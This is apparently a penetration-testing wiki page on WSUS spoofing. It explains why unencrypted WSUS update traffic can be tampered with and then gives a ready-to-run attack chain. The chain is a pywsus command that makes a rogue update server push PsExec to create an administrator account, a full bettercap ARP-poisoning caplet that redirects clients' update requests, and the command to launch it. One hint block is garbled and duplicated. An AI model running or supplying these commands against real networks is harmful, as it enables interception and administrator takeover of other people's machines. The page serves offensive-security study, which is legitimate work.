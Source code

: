 # 🟨 WSUS Spoofing

## <mark style="color:red;">WSUS</mark>

WSUS (Windows Server Update Services) allow administrators to centralize the management and deployment of Windows updates within their organization network. When first configuring this set of services, the default configuration makes the WSUS use HTTP without any secure layer like SSL/TLS. HTTPS is not enforced by default.

For example, a computer configured to get its updates from a WSUS server will initially perform the following handshake:

![](<../../.gitbook/assets/image (1) (2).png>)

All metadata exchanges between the client and the server is done using the Simple Object Access Protocol (SOAP). By exploiting the lack of integrity of the SOAP calls transmitted over an unencrypted HTTP channel, an attacker performing a MITM attack can tamper responses to the SOAP requests “[SyncUpdates (software)](https://docs.microsoft.com/en-us/openspecs/windows\_protocols/ms-wusp/d955e0d0-c51f-4407-a701-995828fd1031)” and “[GetExtendedUpdateInfo](https://docs.microsoft.com/en-us/openspecs/windows\_protocols/ms-wusp/c199b64c-0684-49af-8278-c117e90c1e7a)”.



When pulling an update from the WSUS server, clients are redirected to the executable file to download and execute (which can only be a binary signed by Microsoft) and obtain a handler named `CommandLineInstallation` that specifies the additional parameters to pass the binary during the update installation. Without HTTPS, the WSUS is vulnerable to Man-in-the-Middle attacks where adversaries can either pose as the update server and send malicious updates or intercept and modify updates sent to the clients.

## <mark style="color:red;">pywsus</mark>

{% embed url="https://github.com/GoSecure/pywsus" %}

The evil WSUS server needs to be started before doing any ARP poisoning. The pywsus (Python) utility can be used for that matter.

```
python3 pywsus.py --host $network_facing_ip --port 8530 --executable /path/to/PsExec64.exe --command '/accepteula /s cmd.exe /c "net user testuser somepassword /add && net localgroup Administrators testuser /add"'
```

Programs other than PsExec.exe can be used here. Using built-in programs features to bypass security restrictions or operate attacks like this is called Living off the land (LOL). Other Windows LOL binaries and scripts (a.k.a. LOLbins or LOLbas) can be found on [lolbas-project.github.io](https://lolbas-project.github.io).

### <mark style="color:orange;">Poisoning and hijacking</mark>

Once the WSUS server is up and running, the ARP poisoning attack can start. The best tool to operate ARP poisoning is [bettercap](https://www.bettercap.org/) (Go) and for the majority of the scenarios, basic knowledge of the iptables utility is required.

Packets from the client to the WSUS server need to be hijacked and sent to the attacker's evil WSUS server. In order to do so, the attacker must pose as the client's gateway, route all traffic to the real gateway except the packets destined to the WSUS server.

```c
# quick recon of the network
net.probe on

# set the ARP spoofing
set arp.spoof.targets $client_ip
set arp.spoof.internal false
set arp.spoof.fullduplex false

# reroute traffic aimed at the WSUS server
set any.proxy.iface $interface
set any.proxy.protocol TCP
set any.proxy.src_address $WSUS_server_ip
set any.proxy.src_port 8530
set any.proxy.dst_address $attacker_ip
set any.proxy.dst_port 8530

# control logging and verbosity
events.ignore endpoint
events.ignore net.sniff

# start the modules
any.proxy on
arp.spoof on
net.sniff on
```

The caplet above can be loaded with the following command in order to launch the ARP poisoning attack.

```bash
bettercap --iface $interface --caplet wsus_spoofing.cap
```

### Triggering Windows update

The search for Windows updates can be manually triggered when having access to the target computer by going to `Settings > Update & Security > Windows Update > Check for updates`.&#x20;

{% hint style="info" %}
By default, the automatic updates interval is 22 hours ([source](https://docs.microsoft.com/en-us/windows/deployment/update/waas-wu-settings)).
{% endhint %}



{% hint style="info" %}
urs ([source](https://docs.microsoft.com/en-us/windows/deployment/update/waas-wu-settings)).
{% endhint %}

## <mark style="color:red;">Alternative attack</mark>

Another way of attacking insecure WSUS without having to rely on ARP poisoning but requiring user access to the target machine is explained in the following blogpost : [WSUS Attacks Part 2: CVE-2020-1013 a Windows 10 Local Privilege Escalation 1-Day](https://www.gosecure.net/blog/2020/09/08/wsus-attacks-part-2-cve-2020-1013-a-windows-10-local-privilege-escalation-1-day/)

## <mark style="color:red;">WSUSpect Proxy</mark>

{% embed url="https://github.com/pimps/wsuxploit" %}
